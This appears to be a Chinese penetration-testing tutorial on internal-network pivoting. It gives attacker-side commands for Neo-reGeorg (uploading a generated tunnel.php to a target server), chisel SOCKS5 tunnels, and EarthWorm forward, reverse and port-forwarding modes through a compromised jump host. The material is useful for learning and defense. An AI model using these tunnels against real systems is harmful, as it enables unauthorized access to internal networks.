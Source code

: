 #### Neo-reGeorg
[https://github.com/L-codes/Neo-reGeorg](https://github.com/L-codes/Neo-reGeorg)，使用Neo-reGeorg来进行代理socks5
直接`python3 neoreg.py generate -k bmth`生成文件
![](https://img-blog.csdnimg.cn/8df46dc55a7245188d483bda470ef288.png)
然后将生成的php文件上传到服务器中，连接`python3 neoreg.py -k bmth -u http://192.168.239.136/yxcms/tunnel.php`
![](https://img-blog.csdnimg.cn/3c717421c7b944a6bc9862c6243b8b95.png)
最后编辑`/etc/proxychains.conf`加入`socks5 127.0.0.1 1080`即可

#### chisel
[https://github.com/jpillora/chisel](https://github.com/jpillora/chisel)
服务端：`./chisel_1.7.6_linux_amd64 server -p 1234 --socks5`
![](https://img-blog.csdnimg.cn/3063efa220da459ea61cd66c027c2c8c.png)
攻击端：`./chisel_1.7.6_linux_amd64 client 192.168.157.128:1234 socks`
![](https://img-blog.csdnimg.cn/b4fd2abe1be24a9788274c64b5ac1cea.png)
然后设置socks5为`127.0.0.1:1080`，代理成功
![](https://img-blog.csdnimg.cn/113e7de8a541423488253d5f31b77c86.png)

#### EarthWorm
[美创科技安全实验室课堂——利用EarthWorm实现内网穿透](https://baijiahao.baidu.com/s?id=1678496465868660829)
内网穿透神器EarthWorm，简称EW是一套轻量便携且功能强大的网络穿透工具，基于标准C开发，具有socks5代理、端口转发和端口映射三大功能
![](https://img-blog.csdnimg.cn/16600354f4e84cc1ab23bab59e6f97f5.png)
EW共有六种命令格式，分别为ssocksd、rcsocks、rssocks、lcx_slave、lcx_listen、lcx_tran。其中，用于普通网络环境的正向连接命令是ssocksd，用于反弹连接的命令是rcsocks、rssocks，其他命令用于复杂网络环境的多级级联
![](https://img-blog.csdnimg.cn/a380ba9d685647739ab3ccf944122f38.png)
**正向SOCKS 5服务器**
当攻击者位于外网时，无法直接访问到目标网络内部的主机，但是可以访问到目标网络中对外提供服务的服务器，而恰巧这台机器也拥有内网IP地址，可以访问其他内网机器
![](https://img-blog.csdnimg.cn/953b4a196f18464b8c5dc2fd86bdb48b.png)
攻击者可以在跳板机上运行EarthWorm，执行以下命令
```bash
ew -s ssocksd -l 1080
```
在1080端口上开启socks正向代理，在自己的攻击机上开启全局代理，代理到跳板机的1080端口，至此跳板机就可以将攻击者本地操作的流量转发到内网当中，从而访问到原先无法访问的内网机器，实现内网穿透
**反弹SOCKS 5服务器**
攻击者位于外网，且无法访问目标网络内部的主机，但是内部网络中存在一台对外网开放的服务器，而且可以访问到其他内网机器
![](https://img-blog.csdnimg.cn/d04025ce10b4412198582d3207d0b56c.png)
攻击者可以在内网跳板机上运行EarthWorm使其反向代理到某台公网服务器上，然后攻击者再通过外网连接到对外服务器进而进入到内网中。
首先在一台具有公网ip的主机上运行以下命令，将1080端口收到的代理请求转发给8888端口
```bash
ew -s rcsocks -l 1080 -e 8888
```
然后在内网跳板机上启动SOCKSv5服务，并反弹到公网主机的8888端口，执行以下命令
```bash
ew -s rssocks -d xxx.xxx.xxx.xxx -e 8888
```
EarthWorm还提供了自带的三条端口转发指令，参数格式如下：
>将1080端口收到的代理请求转发给8888端口：
ew -s lcx_listen -l 1080 -e 8888
将1080端口收到的代理请求转发给2.2.2.2的9999端口：
ew -s lcx_tran -l 1080 -f 2.2.2.2 -g 9999
将1.1.1.1的8888端口和2.2.2.2的9999端口连接起来：
ew -s lcx_slave -d 1.1.1.1 -e 8888 -f 2.2.2.2 -g 9999
